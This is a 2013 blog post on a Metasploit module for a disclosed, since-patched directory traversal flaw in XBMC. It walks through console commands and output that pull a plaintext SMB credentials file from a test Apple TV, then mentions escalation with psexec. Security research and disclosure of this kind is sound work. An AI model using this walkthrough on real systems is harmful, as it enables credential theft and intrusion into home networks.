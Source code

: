 ```yaml
---
layout: post
title: "XBMC Traversal Metasploit Module"
date: 2013-02-25T15:32:00-05:00
comments: true
categories:
 - directorytraversal
 - metasploit
 - hacking
---
```


## Background

I was talking in [Intern0t](irc://chat.freenode.net:6667/intern0t) several months ago. [AcidGen](https://twitter.com/Acidgen), from [IOActive](http://www.ioactive.com) mentioned that he found a bug in [XBMC](http://www.xbmc.org). I use [XBMC](http://www.xbmc.org) quite a bit at home, on various platforms, since it's extremely wife-friendly. I hit him up, and we started talking. We had a nice Skype conversation, where we discussed possible platforms that were affected, and future exploits that we'd like to find. Since I had a jailbroken [Apple TV 2](https://www.apple.com/appletv) and [RaspberryPi](http://www.raspberrypi.org), I told him that I could test those platforms and help out. 

<!-- more -->

An [official disclosure](http://www.ioactive.com/pdfs/Security_Advisory_XBMC.pdf) was released, detailing the directory traversal vulnerability. The [XBMC](http://www.xbmc.org) team was able to make a [fix](https://github.com/xbmc/xbmc/commit/bdff099c024521941cb0956fe01d99ab52a65335), and the new version 12 is not vulnerable.

## Why does this vulnerability matter?

When talking with the [XBMC](http://www.xbmc.org), they seemed to play off the vulnerability, because they believed nobody would ever expose this service to a public network. However, a quick [ShodanHQ](http://www.shodanhq.com/search?q=xbmc) search shows that people are exposing it. But you may say, "Matt, this is only a directory traversal vulnerability, what are you going to do, steal someone's MP3s?". The issue here, lies in that if you can read any file on the system, that may include password files, such as /etc/passwd or even /etc/shadow if the service runs as root. What makes this even worse, is that due to how XBMC has to pass credentials to a fileserver, it stores the credentials in plain text. This gives an attacker a <i>huge</i> advantage. They now have valid credentials on at least one system. If the system has SMB exposed as well, it could easily be game-over.

## Let's see the exploit...

I don't know why it took so long, but I finally finished the MSF module for this vulnerability. It can be found [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/gather/xbmc_traversal.rb). The usage is pretty simple. Here is a sample exploitation against an [Apple TV 2](https://www.apple.com/appletv).

As usual, watch the pretty ASCII-art go by, and use the module. 

```
420-1572-man:gather mandreko$ msfconsole
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v4.6.0-dev [core:4.6 api:1.0]
+ -- --=[ 1048 exploits - 590 auxiliary - 174 post
+ -- --=[ 275 payloads - 28 encoders - 8 nops

msf > use auxiliary/gather/xbmc_traversal
msf  auxiliary(xbmc_traversal) >
</pre>Check out the options. You'll see the username and password that need to be set (however it's often defaulted to "xbmc", as well as the host, and file to disclose. 
<pre>msf  auxiliary(xbmc_traversal) > show options

Module options (auxiliary/gather/xbmc_traversal):

   Name      Current Setting                                                      Required  Description
   ----      ---------------                                                      --------  -----------
   DEPTH     9                                                                    yes       The max traversal depth
   FILEPATH  /private/var/mobile/Library/Preferences/XBMC/userdata/passwords.xml  no        The name of the file to download
   PASSWORD  xbmc                                                                 yes       The password to use for the HTTP server
   Proxies                                                                        no        Use a proxy chain
   RHOST                                                                          yes       The target address
   RPORT     8080                                                                 yes       The target port
   USERNAME  xbmc                                                                 yes       The username to use for the HTTP server
   VHOST                                                                          no        HTTP server virtual host

msf  auxiliary(xbmc_traversal) >
```

Go ahead and set the RHOST to the XBMC server. 

```
msf  auxiliary(xbmc_traversal) > set rhost 192.168.1.102
rhost => 192.168.1.102
msf  auxiliary(xbmc_traversal) >
```

Lastly, run the exploit 

```
msf  auxiliary(xbmc_traversal) > run

[+] File saved in: /Users/mandreko/.msf4/loot/20130223100731_default_192.168.1.102_xbmc.http_604967.xml
[*] Auxiliary module execution completed
msf  auxiliary(xbmc_traversal) >
```

You can see this was successful. It saved the file locally, and added notes in [Metasploit](http://www.metasploit.com). Just to verify the findings, you can read the file it saved. 

```
msf  auxiliary(xbmc_traversal) > cat /Users/mandreko/.msf4/loot/20130223100731_default_192.168.1.102_xbmc.http_604967.xml
```

```
[*] exec: cat /Users/mandreko/.msf4/loot/20130223100731_default_192.168.1.102_xbmc.http_604967.xml

<passwords>
    <path>
        <from pathversion="1">smb://192.168.1.2/Movies</from>
        <to pathversion="1">smb://xbmc:xbmc@192.168.1.2/Movies/</to>
    </path>
    <path>
        <from pathversion="1">smb://192.168.1.2/tv</from>
        <to pathversion="1">smb://xbmc:xbmc@192.168.1.2/tv/</to>
    </path>
    <path>
        <from pathversion="1">smb://192.168.1.2/Music</from>
        <to pathversion="1">smb://xbmc:xbmc@192.168.1.2/Music/</to>
    </path>
</passwords>
msf  auxiliary(xbmc_traversal) >
```

And there you have it. You now have valid credentials on that fileserver. You could start escalating with psexec or other methods. Half the battle is already over.